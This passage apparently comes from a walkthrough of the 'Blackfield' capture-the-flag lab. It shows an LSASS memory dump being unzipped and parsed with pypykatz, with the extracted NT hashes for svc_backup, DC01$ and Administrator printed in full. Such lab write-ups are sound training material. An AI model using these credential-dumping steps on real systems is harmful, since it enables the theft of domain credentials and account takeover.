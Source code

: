 `unzip ./lsass.zip`:
```
Archive:  lsass.zip
  inflating: lsass.DMP
```

After unzipping `lsass.zip` we can use `pypykatz` on the extracted `lsass.DMP` file to retrieve NT hashes.

`pypykatz lsa minidump ./lsass.DMP`:
```
INFO:pypykatz:Parsing file ./lsass.DMP
FILE: ======== ./lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

[...]
```

`pypykatz lsa minidump ./lsass.DMP | grep 'NT:' -B3`:
```
INFO:pypykatz:Parsing file ./lsass.DMP
                Username: svc_backup ←
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d ←
--
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
--
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
--
                Username: Administrator
                Domain: BLACKFIELD
```